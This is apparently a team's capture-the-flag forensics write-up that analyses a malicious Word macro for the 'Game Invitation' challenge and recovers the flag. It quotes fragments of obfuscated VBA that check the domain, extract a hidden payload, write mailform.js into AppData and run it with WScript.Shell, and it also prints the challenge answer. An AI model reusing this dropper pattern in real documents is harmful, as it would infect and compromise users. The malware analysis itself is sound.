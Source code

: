 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | Game Invitation Writeup
desc: Check out our writeup for Game Invitation for Cyber Apocalypse 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: forensics
challenge: Game Invitation
tags: "forensics, twh, macros, malware"
date: 2024-03-16T00:00:00+00:00
last_modified_at: 2024-03-16T00:00:00+00:00
---
```



> Solved by : thewhiteh4t


- Challenge talks about receiving a malicious `docm` file in email
- We managed to solve the challenge using windows and MS Office 2016
- We inspected the `macros` in the document and here is a brief flow : 
    - it checks for host domain and proceeds if it matches
```
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then
```
- opens the current document as binary mode 
`Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW`
    - uses regex to match a set pattern
```
    SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
    Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
    Dim vTxAnSEFH
        Set vTxAnSEFH = CreateObject("vbscript.regexp")
        vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
        Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
```
- gets `AppData` dir path and writes `mailform.js`
```
    kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
    Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
    If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
    kWXlyKwVj = Environ("appdata")
    End If
    Set aMUsvgOin = Nothing
    Dim K764B5Ph46Vh
    K764B5Ph46Vh = FreeFile
    IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
```
- uses `wscript` to run `mailform.js`
```
    Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
    R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
```

![](https://i.imgur.com/pmMXx2Y.png)

- Finally it runs clean up and deletes `mailform.js`
- First we can modify the domain check to bypass that condition
    ```
    chkDomain = "GAMEMASTERS.local"
    strUserDomain = Environ$("UserDomain") <-- original
    strUserDomain = "GAMEMASTERS.local"    <-- simply replace it with the domain
    If chkDomain <> strUserDomain Then
    ```
- In the `mailform.js` file we can add one extra statement to print the output of the function just before it hits `eval` as highlighted below :


![](https://i.imgur.com/8PPfPGU.png)



- Now we can use `csript` which is a CMD alternative of `wscript` to read the output it will print : 


![](https://i.imgur.com/WasZ239.png)

- In the noise we can see a `cookie`  being sent with a base64 string

```
> echo "SFRCe200bGQwY3NfNHIzX2czdHQxbmdfVHIxY2tpMTNyfQo=" | base64 -d
> HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}
```

